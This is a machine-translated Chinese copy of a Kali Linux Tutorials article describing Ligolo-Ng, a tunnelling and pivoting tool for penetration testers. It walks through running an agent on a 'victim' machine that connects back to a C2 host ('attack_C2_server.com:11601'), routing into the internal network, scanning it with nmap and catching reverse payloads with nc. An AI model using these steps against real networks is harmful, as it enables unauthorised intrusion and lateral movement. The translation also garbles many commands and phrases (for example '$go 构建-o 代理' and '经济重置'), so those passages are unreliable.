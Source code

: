 # Ligolo-Ng:一个先进而简单的隧道/旋转工具，使用了一个 TUN 接口

> 原文：<https://kalilinuxtutorials.com/ligolo-ng/>

[![](img/d334fd023da38aeb29f509b7e368eb25.png)](https://1.bp.blogspot.com/-q07qpJlCJrA/YTYtV3RZS9I/AAAAAAAAKt4/eUcVYvnpKO0r0IWvfWOcHqfrARcPCSJXQCLcBGAsYHQ/s1491/logo%2B%25281%2529.png)

**Ligolo-Ng** 是一个*简单*、*轻量级*和*快速*的工具，允许 pentesters 从反向 TCP/TLS 连接建立隧道，而不需要 SOCKS。

**特色**

*   Tun 界面(没有更多的袜子！)
*   带有*代理*选择和*网络信息*的简单 UI
*   易于使用和设置
*   让我们加密的自动证书配置
*   性能(多路复用)
*   不需要高权限
*   *代理*上的套接字监听/绑定
*   *代理*支持多种平台

**这和 Ligolo/Chisel/Meterpreter 有什么区别…？**

不使用 SOCKS 代理或 TCP/UDP 转发器， **Ligolo-ng** 使用 Gvisor 创建一个用户网络栈。

当运行*中继/代理*服务器时，使用一个 **tun** 接口，发送到该接口的数据包被翻译，然后传输到*代理*远程网络。

例如，对于 TCP 连接:

*   SYN 在远程被转换为 connect()
*   如果 connect()成功，则发送回 SYN-ACK
*   如果连接后返回经济重置、经济启用或经济解除系统调用，则发送 RST
*   如果超时，则不发送任何内容

这允许在不使用*代理链*的情况下运行 *nmap* 之类的工具(更简单、更快)。

**建筑&用途**

**建筑照明**

建筑*照明*:

**$go 构建-o 代理 cmd/agent/main.go
$go 构建-o 代理 cmd/proxy/main . go
# Windows 构建代理
$GOOS=windows go 构建-o agent.exe cmd/agent/main . go**

**设置 Ligolo-ng**

在您的命令和控制(C2)服务器上启动*代理*服务器(将使用默认的 11601 监听):

**$ sudo ip tuntap 添加用户【your_username】模式 tun ligolo
$ sudo ip link 设置 ligolo up
$。/proxy -h #帮助选项
$。/proxy -autocert #自动请求 LetsEncrypt 证书**

**TLS 选项**

**使用加密自动插入**

当使用 **`-autocert`** 选项时，代理会在代理连接时自动为*attack _ C2 _ server . com*请求一个证书(使用 Let's Encrypt)。

让我们加密证书验证/检索，端口 80 需要是可访问的

**使用自己的 TLS 证书**

如果您想为代理服务器使用您自己的证书，您可以使用`**-certfile**`和`**-keyfile**`参数。

**自动自签名证书(不推荐)**

 ***代理/中继*可以使用`-selfcert`选项自动生成自签名 TLS 证书。

`**-ignore-cert**`选项需要和*代理*一起使用。

当心中间人攻击！此选项只应在测试环境中使用或用于调试目的。

**使用 Ligolo-ng**

在您的目标(受害者)计算机上启动*代理*(不需要特权！):

**$。/agent-connect attack _ C2 _ server . com:11601**

一个会话应该出现在*代理服务器*上。

信息[0102]代理加入。name = nchatelain @ nworkstation remote = " XX。XX . XX . XX:38000”

使用`**session**`命令选择*代理*。

**ligolong 会话
？指定一个会话:1–nchatelain @ nworkstation–XX。XX.XX.XX:38000**

使用`**ifconfig**`命令显示代理的网络配置:

**【代理人:新竹@ nworkstation】【ifconfig】

**────────────────────────────────。****

在*代理/中继*服务器上添加一条路由到 *192.168.0.0/24* *代理*网络。

**$ sudo ip 路由 add 192.168.0.0/24 dev ligolo**

在代理上启动隧道:

**【代理人:nchatain @ nworkstation】开始
【代理人:nchatain @ nworkstation】信息【0690】开始隧道到 nchatain @ nworkstation**

您现在可以从*代理*服务器访问 *192.168.0.0/24* *代理*网络。

**$ nmap 192 . 168 . 0 . 0/24-v-sV-n
[…]
$ rdesktop 192 . 168 . 0 . 123
[…]**

**代理绑定/监听**

您可以监听*代理*和*上的端口，将*连接重定向到您的控制/代理服务器。

在 ligolo 会话中，使用`**listener_add**`命令。

以下示例将在代理(0.0.0.0:1234)上创建一个 TCP 侦听套接字，并将连接重定向到代理服务器的 4321 端口

**[Agent:nchatelain @ nworkstation]Listener _ add–addr 0 . 0 . 0 . 0:1234–to 127 . 0 . 0 . 1:4321–TCP
INFO[1208]在远程代理上创建的监听器！**

在`**proxy**`上:

**$ nc -lvp 4321**

当在代理的 TCP 端口`**1234**`上建立连接时，`**nc**`将接收连接。

这在使用反向 tcp/udp 有效负载时非常有用。

您可以使用`**listener_list**`命令查看当前正在运行的监听器，并使用`**listener_stop [ID]**`命令停止它们:

**【代理人:新浪@nworkstation】【列表】T1、【列表】──一个──一个──一个──一个──一个──一个──一个──一个──一个──一个**

是否需要管理员/Root 访问权限？

在*代理*这边，没有！任何事情都可以在没有管理权限的情况下执行。

然而，在您的*中继/代理*服务器上，您需要能够创建一个 *tun* 接口。

**支持的协议/数据包**

*   传输控制协议（Transmission Control Protocol）
*   用户数据报协议(User Datagram Protocol)
*   ICMP(回应请求)

**表现**

您可以轻松达到 100 兆位/秒以上。下面是使用`**iperf**`从 200 兆位/秒服务器到 200 兆位/秒连接的测试。

**$ iper F3-c 10.10.0.1-p 24483
连接主机 10 . 10 . 0 . 1， 端口 24483
[ 5]本地 10.10.0.224 端口 50654 连接到 10.10.0.1 端口 24483
[ ID]间隔传输比特率 Retr Cwnd
[ 5] 0.00-1.00 秒 12.5 兆字节/秒 0 164 千字节
[5]1.00-2.00 秒 12.7 兆字节/秒 0 207 兆字节/秒 4.00-5.00 秒 13.1 兆字节 110 兆字节/秒 2 134 千字节
[ 5] 5.00-6.00 秒 113 兆字节/秒 0 147 千字节
[ 5] 6.00-7.00 秒 12.6 兆字节 105 兆字节/秒 0 158 千字节
[ 5] 7.00-8.00 秒 12.1 兆字节 100**

**注意事项**

因为*代理*在没有特权的情况下运行，所以不可能转发原始数据包。当您执行 NMAP 同步扫描时，会在代理上执行 TCP 连接()。

使用 *nmap* 时，要使用`**--unprivileged**`或`**-PE**`避免误报。

[**Download**](https://github.com/tnpitsecurity/ligolo-ng)**